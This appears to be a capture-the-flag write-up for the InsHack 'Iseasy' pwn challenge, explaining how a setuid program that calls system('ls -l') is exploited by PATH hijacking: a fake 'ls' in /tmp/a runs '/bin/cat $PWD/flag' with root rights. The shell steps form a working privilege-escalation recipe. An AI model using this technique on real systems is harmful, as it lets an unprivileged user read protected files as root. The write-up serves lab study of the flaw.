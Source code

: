 ```yaml
---
title: "InsHack -- Iseasy Writeup"
categories:
  - InsHack
tags:
  - CTF
  - pwn
---
```


<div class="notice--info">
<strong>Challenge:</strong>
<ul>
<li><strong>Name</strong>:     Iseasy</li>
<li><strong>Category</strong>: pwn</li>
<li><strong>Points</strong>:   75</li>
<li><strong>Solves</strong>:   127</li>
<li><strong>Given</strong>:    `Iseasy`, `vuln.c`</li>
</ul>
</div>

"*My shower won't give me warm water :/ maybe it's an hacker? :o Could you help me? ssh <you_ssh_user>@pwn1.ctf.insecurity-insa.fr*"

# Solution
The whole source code is just this litle snippet:
```C
int main() {
    system("ls -l");
}
```

This simply lists the files in the current directory. <br>
Very importantly the program is running with **setuid**, meaning the executable **runs as root** even if a normal user runs it. But how can this harm anyone if it just lists a directory?

Well, the program will run the executable `ls` but how does it find it? It uses the PATH environment variable.<br>
That means that if we are able to point it to our `ls` it would just run `our/ls` and not `/bin/ls`!

So the solution goes something like this:
 - Create a file named `ls` in the `/tmp/a` directory.
```
mkdir /tmp/a
touch /tmp/a/ls
```

 - Write in `/tmp/a/ls`:
```
/bin/cat $PWD/flag
```

 - And now if we just change the PATH environment variable to point to our `ls` it should work:
```bash
export PATH=/tmp/a
./vuln
```

**IT WORKED!**
